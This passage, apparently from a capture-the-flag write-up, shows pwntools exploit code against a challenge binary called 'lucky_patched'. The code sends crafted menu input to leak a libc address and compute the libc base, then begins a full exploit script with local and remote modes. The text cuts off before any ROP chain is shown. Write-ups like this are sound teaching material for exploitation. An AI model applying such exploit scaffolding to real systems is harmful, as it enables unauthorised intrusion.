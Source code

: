 ```python
libc = ELF("./libc-2.31.so")

elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'

io = start()

io.sendlineafter('> ', b'1')

io.sendafter('name: ', b'\0')
io.sendlineafter('year: ', b'0')
io.sendlineafter('month: ', b'0')
io.sendlineafter('day: ', b'-')

libc_leak = int(io.recvuntil("\n").split(b' ')[5].decode().strip('\n'))
print(f'Received address: {hex(libc_leak)}')
libc.address = libc_leak - libc.sym["_IO_2_1_stdin_"]
print(f'Libc _IO_2_1_stdin_ address: {hex(libc.sym["_IO_2_1_stdin_"])}')
print(f'Libc base address: {hex(libc.address)}')

io.interactive()
```

### Gaining code execution
It's now time to gain code execution since we have all the necessary requirements to craft and write our ROP chain to memoery. The complete combined exploit code is show below.
```python
from pwn import *
import struct

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
brva 0x1504
run
'''.format(**locals())



# Set up pwntools for the correct architecture
exe = './lucky_patched'
libc = ELF("./libc-2.31.so")
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

## attempting to leak libc
io.sendlineafter('> ', b'1')
```